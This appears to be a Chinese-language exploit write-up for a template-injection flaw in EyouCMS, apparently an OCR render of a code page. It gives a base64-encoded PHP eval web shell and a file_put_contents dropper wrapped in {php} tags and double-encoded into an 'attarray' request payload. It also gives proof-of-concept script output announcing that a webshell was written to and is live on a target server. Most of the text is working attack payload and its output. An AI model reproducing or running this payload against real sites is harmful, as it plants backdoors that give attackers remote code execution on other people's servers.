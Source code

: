 ```
file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==")); 
```

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

```
<?php eval($_REQUEST[“w”]);?> 
```

将php标签转换为json格式并加密：

```
print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"))); `eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=` 
```

pyload:

```
attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb 
```

![image](img/1a87c77eac2d04c4b6bef2d0c59f3fe6.png)

htmlcode参数作为随机方式传递

### poc

```
silly@PenetrationOs:~#: python eyoucms-ssti.py -u http://192.168.1.106:8085/ -o abc `[+] 正在请求目标地址:[http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist](http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist)

[*] 目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist存活

[+] 正在向目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist写入abc.php

[*] 疑似成功写入Webshell

[+] 正在探测Webshell([http://192.168.1.106:8085/abc.php](http://192.168.1.106:8085/abc.php))是否存活

[*] Webshell([http://192.168.1.106:8085/abc.php](http://192.168.1.106:8085/abc.php))已存活

```